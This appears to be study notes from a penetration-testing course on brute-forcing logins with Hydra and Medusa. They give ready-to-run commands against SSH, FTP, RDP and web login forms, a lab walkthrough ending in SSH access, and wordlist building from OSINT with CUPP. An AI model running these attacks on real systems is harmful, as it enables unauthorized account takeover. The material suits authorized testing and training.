 # Hydra
- Crafting the correct params string is crucial for a successful Hydra attack. Accurate information about the form's structure and behavior is essential for constructing this string effectively. 

- Can brute force FTP, SSH, HTTP, SMTP, POP3, IMAP, MYSQL, MSSQL, VNC, RDP:
- HTTP: `hydra -L usernames.txt -P passwords.txt www.example.com http-get`
- Multiple SSH servers: `hydra -l root -p toor -M targets.txt ssh`
- FTP on non-standard port: `hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp`
- Web Login Form: `hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`
- RDP Brute-forcing: `hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp`

```
POST /login HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=john&password=secret123
```

- Look at the HTML of the login form for details


- The `POST` method indicates that data is being sent to the server to create or update a resource.
- `/login` is the URL endpoint handling the login request.
- The `Content-Type` header specifies how the data is encoded in the request body.
- The `Content-Length` header indicates the size of the data being sent.
- The request body contains the username and password, encoded as key-value pairs.
- Hydra's `http-post-form` service is specifically designed to target login forms: `hydra [options] target http-post-form "path:params:condition_string"`
- You can specify what success or failure is:
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"`
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard"`

- Form Parameters: These are the essential fields that hold the username and password. Hydra will dynamically replace placeholders (^USER^ and ^PASS^) within these parameters with values from your wordlists.
- Additional Fields: If the form includes other hidden fields or tokens (e.g., CSRF tokens), they must also be included in the params string. These can have static values or dynamic placeholders if their values change with each request.
- Success Condition: This defines the criteria Hydra will use to identify a successful login. It can be an HTTP status code (like S=302 for a redirect) or the presence or absence of specific text in the server's response (e.g., F=Invalid credentials or S=Welcome).

- The form submits data to the root path (`/`).
  - The username field is named `username`.
  - The password field is named `password`.
 
Therefore, the `params` string would be:
- `/:username=^USER^&password=^PASS^:F=Invalid credentials`
  - `"/"`: The path where the form is submitted.
  -  `username=^USER^&password=^PASS^`: The form parameters with placeholders for Hydra.
  -  `F=Invalid credentials`: The failure condition – Hydra will consider a login attempt unsuccessful if it sees this string in the response.
 
Resulting in - `hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"`

# Medusa
- `medusa [target_options] [credential_options] -M module [module_options]`
- Useful for FTP, HTTP, IMAP, MYSQL, POP3, RDP, SSHV2, SUBVERSION(SVN), TELNET, VNX, Web Form.
- SSH Server: `medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh`
- Multiple HTTP Auth: `medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET `
- test for empty or default passwords (where user = password: `medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name`

- Reminder SSH Login: `ssh sshuser@<IP> -p PORT`

- Find SSH access --> run `nmap localhost` --> run new medusa command on FTP port found: `medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5` --> Found ftpuser password then run `ftp <IP>` --> enter user --> enter password -->> find file --> `get filename1` --> now in SSH shell

- Make a custom wordlist with `Username Anarchy`
  - `/username-anarchy Jane Smith > jane_smith_usernames.txt`
  - txt file created will have a bunch of username variations based off `Jane Smith`
 
- Make custom password lists with `CUPP`:
  - CUPP will take your inputs and create a comprehensive list of potential passwords
  - OSINT will be a goldmine of information for CUPP
  - Spawn CUPP with `cupp -i` and follow the prompts
